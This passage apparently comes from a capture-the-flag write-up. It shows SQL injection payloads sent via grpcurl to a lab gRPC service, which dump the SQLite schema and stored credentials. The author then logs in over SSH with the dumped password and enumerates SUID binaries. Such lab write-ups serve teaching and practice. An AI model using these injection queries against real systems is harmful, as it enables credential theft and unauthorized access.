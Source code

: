 The API was vulnerable. I tried to read the version of the database to know what server was used and found it was SQLite.

```bash
$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d "{\"id\":\"2 Union Select sqlite_version()\"}"  target:50051 SimpleApp/getInfo
{
  "message": "3.31.1"
}
```

I used the vulnerability to extract information from the database.

```bash
$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d "{\"id\":\"2 Union Select GROUP_CONCAT(sql, '\n\n') From sqlite_master\"}"  target:50051 SimpleApp/getInfo
{
  "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)\n\nCREATE TABLE messages(id INT UNIQUE, username TEXT UNIQUE,message TEXT)"
}

$ ./grpcurl -H 'token:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4ODMyMzEyNX0.jlayn5ECWQQxcu9wpLjsfDhmy2SD_n47ojwF4Lhrx44' -plaintext -d "{\"id\":\"2 Union Select GROUP_CONCAT(username || ' - ' || password, '\n\n') From accounts\"}"  target:50051 SimpleApp/getInfo
{
  "message": "admin - admin\n\nsau - REDACTED"
}
```

I had some credentials, so I tried them with SSH.

```
$ ssh sau@target
sau@target's password:
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19

sau@pc:~$ ls
user.txt

sau@pc:~$ cat user.txt
REDACTED
```
## Getting Root

Once on the server, I looked at possible escalation routes.

```bash
sau@pc:~$ sudo -l
[sudo] password for sau:
Sorry, user sau may not run sudo on localhost.

sau@pc:~$ find / -perm /u=s 2>/dev/null
/snap/snapd/17950/usr/lib/snapd/snap-confine
/snap/core20/1778/usr/bin/chfn
/snap/core20/1778/usr/bin/chsh
/snap/core20/1778/usr/bin/gpasswd
/snap/core20/1778/usr/bin/mount
/snap/core20/1778/usr/bin/newgrp
/snap/core20/1778/usr/bin/passwd
/snap/core20/1778/usr/bin/su
/snap/core20/1778/usr/bin/sudo
/snap/core20/1778/usr/bin/umount
/snap/core20/1778/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1778/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```